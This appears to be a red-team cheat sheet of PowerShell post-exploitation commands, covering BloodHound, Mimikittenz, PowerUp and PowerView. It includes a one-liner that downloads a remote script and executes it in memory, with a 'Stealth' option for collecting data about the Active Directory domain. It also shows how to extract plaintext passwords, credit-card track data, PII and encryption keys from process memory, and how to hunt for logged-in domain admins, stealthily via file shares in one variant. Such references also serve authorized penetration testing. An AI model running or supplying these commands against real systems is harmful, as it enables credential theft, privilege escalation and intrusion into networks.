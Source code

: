 #### Bloodhound
```
    iex((new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1'));Invoke-Bloodhound -CSVFolder c:\temp -CSVPrefix <prefix>

    Invoke-BloodHound -DomainController <domain IP> -Domain <FQDN> -CSVFolder C:\users\public\libraries -CSVPrefix <prefix> -CollectionMethod Stealth
```

#### Mimikittenz
https://github.com/putterpanda/mimikittenz

mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.

mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns including but not limited to:

* TRACK2 (CreditCard) data from merchant/POS processes
* PII data
* Encryption Keys & All the other goodstuff

Execution
```
    Invoke-Mimikittenz
```

Customizations
``` 
    Custom regex - The syntax for adding custom regex is as follows:
    [mimikittenz.MemProcInspector]::AddRegex("<NameOfTarget>","<regex_here>")

    Custom target process - Just append your target proccess name into the array:
    [mimikittenz.MemProcInspector]::InspectManyProcs("iexplore","chrome","firefox")
```


#### PowerUp
Performs multiple local host privilege escalation checks for common Windows misconfigurations. 
```
    Invoke-AllChecks
```

[See cheat sheet for more commands](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)

#### PowerView

* Requires domain user privileges
    
Find Administrative users logged in across the domain - default group = Domain Admins) 
``` 
    Invoke-UserHunter -Threads 15 -NoPing [-GroupName “Enterprise Admins”]
    Invoke-UserHunter -Threads 20 -GroupName "Domain Admins" -SearchForest -CheckAccess
```

Find User (Stealthy via Fileshares)
```
    Invoke-UserHunter -Stealth -Threads 5 -NoPing [-GroupName “Enterprise Admins”] [-UserName "svcAccount"]
```
